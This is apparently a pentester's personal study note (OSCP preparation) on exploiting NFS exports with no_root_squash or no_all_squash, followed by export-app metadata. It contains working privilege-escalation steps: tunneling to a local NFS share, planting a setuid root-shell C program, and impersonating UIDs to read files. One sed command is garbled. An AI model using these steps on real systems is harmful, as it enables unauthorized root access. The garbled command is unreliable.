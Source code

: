 NFS Vulns

<ins>Vulnerabilities</ins>

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no\_root\_squash-misconfiguration-pe](https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe)

Read the /etc/exports file, if you find some directory that is configured as no\_root\_squash, then you can access it from as a client and write inside that directory as if you were the local root of the machine.

no\_root\_squash: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

no\_all\_squash: This is similar to no\_root\_squash option but applies to non-root users. Imagine, you have a shell as nobody user; checked /etc/exports file; no\_all\_squash option is present; check /etc/passwd file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.

<ins>NFS; no\_root\_squash, insecure, rw</ins>

If /etc/exports have a line e.g.

> /srv/pelota 192.168.42.0/24(insecure,rw)
> /srv/pelota 127.0.0.1/32(no\_root\_squash,insecure,rw)

Then NFS is being exported and you have ssh access to the machine. You can use your attacker machine (login as root) to run:

> ssh -f -N megumin@192.168.42.43 -L 2049:127.0.0.1:2049
> mount -t nfs 127.0.0.1:/srv/pelota my_share
> cd my_share
> cat > shell.c<<EOF
> #include &lt;unistd.h&gt;
> int main(){
> setuid(0);
> setgid(0);
> system("/bin/bash");
> }
> EOF
> gcc shell.c -o shell
> chmod u+s shell

Now inside a ssh session on the victim machine i.e. 192.168.42.32 in this case

> cd /srv/pelota
> ./shell
> 
> Use 'id' to identify what user you are

<ins>Example of Vuln config; OSCP EXAM HAPPENED</ins>

If you wish to use NSE scripts:nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254

![7a58718293ff72b88d3e48b60dfc46d7.png](:/a6a3e955d5ca4466a074924b94657fda)

This case -- /home is being shared, and can be accessed by mounting it on our kali machine.

To do so:

> mkdir home;
> 
> sudo mount -I nolock $IP/home ~/home/;

- -nolock will disable file locking

If we try to view files within that mounted folder, there won't be any permissions granted

What we can do is to replicate the user by creating a user with the same UUID, su to that user and access the file

> sudo adduser pwn; sudo sed 0u 0e 's/$Created\_UUID/$permission\_UUID/g' /etc/passwd; su pwn; cat $file

id: 5c154102202a4bc2810ada55f25852e7
parent_id: 27b595c9aae647aba407fed241a81f90
created_time: 2022-01-16T09:02:55.853Z
updated_time: 2022-01-16T09:55:39.238Z
is_conflict: 0
latitude: 1.36730000
longitude: 103.80140000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-16T09:02:55.853Z
user_updated_time: 2022-01-16T09:55:39.238Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1